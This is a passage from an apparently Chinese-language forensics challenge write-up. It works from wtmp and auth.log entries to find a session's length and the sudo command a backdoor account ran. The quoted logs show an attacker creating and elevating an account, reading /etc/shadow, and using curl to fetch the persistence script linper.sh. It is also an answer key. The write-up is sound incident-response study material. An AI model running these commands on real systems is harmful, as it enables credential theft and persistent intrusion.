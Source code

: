 

wtmp 显示会话在 06:32:45 开启，即会话开始到结束时间段为 06:32:45 - 06:37:24，共 279 秒：

```
[7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:32:45,387923+00:00]
```



`279`



### Task 8

The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

---

auth.log 文件中记录了后门账户 cyberjunkie 的操作：

```
└─# grep "cyberjunkie" auth.log
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: pam_unix(sshd:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
Mar  6 06:37:34 ip-172-31-35-28 systemd-logind[411]: New session 49 of user cyberjunkie.
Mar  6 06:37:34 ip-172-31-35-28 systemd: pam_unix(systemd-user:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
```



`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

